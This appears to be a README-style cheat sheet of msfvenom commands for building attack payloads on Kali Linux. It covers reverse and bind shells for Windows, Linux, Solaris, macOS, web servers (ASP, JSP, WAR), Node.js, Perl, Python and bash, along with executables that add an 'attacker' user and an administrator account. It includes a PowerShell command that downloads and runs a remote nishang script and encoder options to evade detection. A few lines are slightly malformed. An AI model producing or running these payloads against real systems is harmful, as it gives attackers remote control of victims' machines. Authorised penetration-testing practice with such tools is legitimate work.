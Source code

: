 Here are commands to run on kali linux from msfvenom and their output described in a word file with video explaining it.
1- msfvenom -l payloads #Payloads
2- msfvenom -l encoders
Windows
Reverse Shell
PORT 80
IP address: 10.0.2.15
3- msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
LHOST = 10.0.2.15 LPORT= 80
4- msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe
Rhost= 192.168.18.3 IP address of windows as Rhost
5- msfvenom -p windows/adduser USER=attacker PASS=Attacker@123! -f exe > adduser.exe
6- msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe
7- msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
7- msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
8- msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exo plinkmeter.exe
Linux
9- msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
IP address= 10.0.2.5 Port:80
10- msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf
11- msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
MAC Payloads
Reverse Shell:
12- msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
13- msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho
14- msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
15- msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
16- msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
17- msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
18- msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
19- msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
20- msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh

